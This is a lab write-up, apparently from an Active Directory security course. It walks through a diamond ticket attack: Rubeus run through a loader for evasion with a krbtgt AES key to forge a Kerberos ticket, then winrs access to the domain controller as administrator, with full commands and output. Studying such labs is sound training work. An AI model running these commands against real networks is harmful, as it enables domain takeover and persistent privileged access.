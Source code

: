 # Learning Objective 10 (Persistence | Diamond Ticket)

## Tasks

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

---

## Solution

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

We can simply use the following Rubeus command to execute the attack.
Note that the command needs to be run **from an elevated shell ('run as administrator')**. We take the usual OPSEC care of using Loader.

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators👥                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

In order to perform the diamond ticket attack we need to use the `krbtgt` aes256 key.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Diamond Ticket📌

[*] Showing process : True
[*] Username        : MZBPYDM3
[*] Domain          : LYOCO7MX
[*] Password        : B89I5HTT
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3252
[+] LUID            : 0x626d5a

[*] No target SPN specified, attempting to build 'cifs📌/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dcorp-dc.dollarcorp.moneycorp.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: 5Gs8379n58wpVLIc13YhnzmmPL9MOAbONZb0NbtgacY=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

[SNIP]

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x626d5a
[+] Ticket successfully imported!🎟️
```

Access the DC using winrs from the new spawned process!

![New spawned terminal process](./assets/screenshots/learning_objective_10_new_spawned_terminal_process.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x626d5a

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 2/13/2025 7:09:52 (local)
        End Time:   2/13/2025 17:09:43 (local)
        Renew Time: 2/20/2025 7:09:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
🚀

![dcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/dcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\administrator
```

`hostname`:
```
dcorp-dc
```
🚩

---
---
